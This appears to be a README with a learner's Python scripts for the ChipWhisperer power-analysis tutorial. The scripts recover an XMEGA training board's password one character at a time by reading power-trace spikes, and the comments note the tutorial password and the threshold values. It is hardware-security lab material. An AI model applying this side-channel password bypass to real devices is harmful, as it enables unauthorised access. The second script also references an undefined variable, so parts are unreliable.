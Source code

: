 
# Tutorial B3-1 Timing Analysis with Power for Password Bypass

Test script for chipwhisperer tutorial : https://wiki.newae.com/Tutorial_B3-1_Timing_Analysis_with_Power_for_Password_Bypass

## One character check. 

I found a trace that worked for me around 203 units. Unfortunately this is not good enough for full password discovery.

```
"""Setup script for CWLite/1200 with XMEGA (CW303/CW308-XMEGA/CWLite target)

Configures scope settings to prepare for capturing SimpleSerial power traces
"""

# GUI compatibility
try:
    scope = self.scope
    aux_list = self.aux_list

except NameError:
    pass
    
scope.gain.gain = 45
scope.adc.samples = 25000
scope.adc.offset = 0
scope.adc.basic_mode = "rising_edge"
scope.clock.clkgen_freq = 7370000
scope.clock.adc_src = "clkgen_x4"
scope.trigger.triggers = "tio4"
scope.io.tio1 = "serial_rx"
scope.io.tio2 = "serial_tx"
scope.io.hs2 = "clkgen"

target.key_cmd = ''
target.go_cmd = ''
target.output_cmd = ''


from chipwhisperer.capture.auxiliary.ResetCW1173Read import ResetCW1173
Resetter = ResetCW1173(xmega=True, delay_ms=1200)
aux_list.register(Resetter.resetThenDelay, "before_trace")

# h0px3\n
trylist = 'abcdefghijklmnopqrstuvwxyz0123456789'
password = ''

for c in trylist:
    # Get a power trace using our next attempt
    nextPass = password + '{}'.format(c) + "\n"
    target.go_cmd = nextPass
    cw.captureN(self.scope, self.target, None, self.aux_list, self.ktp, 1)
        
    # Grab the trace and check nextTrace[203]
    nextTrace = scope.getLastTrace()
    
    # check where the power spike happens and change the values below. Mine was at 203 and I checked for values smaller than -0.135
    if nextTrace[203] < -0.135: 
        print "Success: " + c

```


## All characters

I had issues with the start point of 203 points that I identified in the first step. Keep in mind that when an attempt is made the trace is slightly different compared to when it completes and finds the password correctly. The processing trace is different. 

In the end, I observed a successful trace and worked backwards from there as well. Hence why my startPoint now is set to 344 points with a step of 36.  

```
"""Setup script for CWLite/1200 with XMEGA (CW303/CW308-XMEGA/CWLite target)

Configures scope settings to prepare for capturing SimpleSerial power traces
"""

# GUI compatibility
try:
    scope = self.scope
    aux_list = self.aux_list

except NameError:
    pass
    
scope.gain.gain = 45
scope.adc.samples = 25000
scope.adc.offset = 18
scope.adc.basic_mode = "rising_edge"
scope.clock.clkgen_freq = 7370000
scope.clock.adc_src = "clkgen_x4"
scope.trigger.triggers = "tio4"
scope.io.tio1 = "serial_rx"
scope.io.tio2 = "serial_tx"
scope.io.hs2 = "clkgen"

target.key_cmd = ''
target.go_cmd = ''
target.output_cmd = ''


from chipwhisperer.capture.auxiliary.ResetCW1173Read import ResetCW1173
Resetter = ResetCW1173(xmega=True, delay_ms=1200)
aux_list.register(Resetter.resetThenDelay, "before_trace")

# password if h0px3\n
# trylist = 'abghj0px3df' # short test list
trylist = 'abcdefghijklmnopqrstuvwxyz0123456789'
password = ''

for i in range(5):
    for c in trylist:
        # Get a power trace using our next attempt
        nextPass = password + '{}'.format(c) + "\n"
        target.go_cmd = nextPass
        cw.captureN(self.scope, self.target, None, self.aux_list, self.ktp, 1)
        
        # Grab the trace
        nextTrace = scope.getLastTrace()
         
        startPoint = 344+36*i
        print hh, c
        print nextTrace[startPoint]

        # Check location 153, 225, etc. If it's too low, we've failed
        if nextTrace[startPoint] < -0.104:
            print 'found'

            
            # If we got here, we've found the right letter
            password += c
            print '{} characters: {}'.format(i+1, password)
            break
```
